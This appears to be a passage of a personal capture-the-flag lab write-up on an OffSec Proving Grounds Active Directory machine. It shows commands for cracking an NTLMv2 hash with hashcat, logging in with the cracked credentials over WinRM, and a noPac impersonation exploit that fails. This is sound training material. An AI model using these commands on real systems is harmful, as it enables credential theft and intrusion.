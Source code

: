 ![[PG/Active Directory/attachments/Pasted image 20250708003311.png]]

Wooooooooooooooo
![[PG/Active Directory/attachments/Pasted image 20250708003340.png]]

Got a hash :) and a user: `anirudh`

Save hash to a file to crack.

# Crack NTLMv2 

```
hashcat -m 5600 ani.hash /usr/share/wordlists/rockyou.txt --force
```

And it cracked 

![[PG/Active Directory/attachments/Pasted image 20250708003722.png]]
- `anirudh:SecureHM`

# Initial Access

```
nxc winrm 192.168.120.172 -u 'anirudh' -p 'SecureHM'
```

![[PG/Active Directory/attachments/Pasted image 20250708003944.png]]

## Evil-WinRM

```
evil-winrm -i 192.168.120.172 -u 'anirudh' -p 'SecureHM'
```
![[PG/Active Directory/attachments/Pasted image 20250708004052.png]]

# Priv Esc 

We have a lot of interesting privileges (including the SeMachineAccountPrivilege)
![[PG/Active Directory/attachments/Pasted image 20250708004215.png]]

Maybe my trusty script will work again.....DOUBT 

## Priv Esc by Exploiting SeMachineAccountPrivilege

```
python3 noPac.py vault.offsec/anirudh:'SecureHM' -dc-ip 192.168.120.172 -shell --impersonate administrator -use-ldap
```

![[PG/Active Directory/attachments/Pasted image 20250708004537.png]]
- as expected.. did not work.
